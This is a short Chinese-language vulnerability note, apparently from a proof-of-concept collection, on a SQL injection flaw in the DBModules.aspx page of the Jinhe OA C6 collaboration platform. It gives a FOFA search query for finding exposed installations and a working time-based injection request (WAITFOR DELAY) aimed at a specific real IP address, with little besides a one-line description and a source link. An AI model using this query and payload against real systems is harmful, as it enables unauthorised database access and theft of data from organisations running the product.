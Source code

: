 # 金和OA-C6协同管理平台DBModules.aspx存在SQL注入漏洞

北京金和网络股份有限公司C6协同管理平台DBModules.aspx存在SQL注入漏洞，攻击者可获取数据库敏感数据。

## fofa

```yaml
body="c6/Jhsoft.Web.login"
```

## poc

```java
GET /C6/JHSoft.Web.WorkFlat/DBModules.aspx/?interfaceID=1;WAITFOR+DELAY+'0:0:5'-- HTTP/1.1
Host: 123.57.26.236
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36

```



## 漏洞来源

- https://mp.weixin.qq.com/s/tv_5OOH6CoQDZsZKzu8CDw